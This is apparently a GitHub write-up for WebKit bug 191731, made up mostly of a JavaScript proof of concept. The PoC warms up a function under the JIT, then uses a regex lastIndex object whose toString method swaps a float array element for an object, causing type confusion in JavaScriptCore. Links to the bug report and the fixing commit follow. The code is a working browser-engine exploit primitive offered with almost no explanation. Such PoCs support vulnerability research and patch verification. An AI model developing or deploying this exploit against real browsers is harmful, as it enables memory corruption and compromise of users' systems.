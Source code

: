 # BUG 191731
## POC

```javascript
var victim_array = [1.1];
var reg = /abc/y;
var val = 5.2900040263529e-310

var funcToJIT = function() {
    'abc'.match(reg);
    victim_array[0] = val;
}

for (var i = 0; i < 10000; ++i){
    funcToJIT()
}

regexLastIndex = {};
regexLastIndex.toString = function() {
    victim_array[0] = {};
    return "0";
};
reg.lastIndex = regexLastIndex;
funcToJIT()
print(victim_array[0])
```

## About the bug
https://bugs.webkit.org/show_bug.cgi?id=191731
## Diff
https://github.com/WebKit/webkit/commit/7cf9d2911af9f255e0301ea16604c9fa4af340e2?diff=split#diff-fb5fbac6e9d7542468cfeed930e241c0L66
## WebKit branch
3af5ce129e6636350a887d01237a65c2fce77823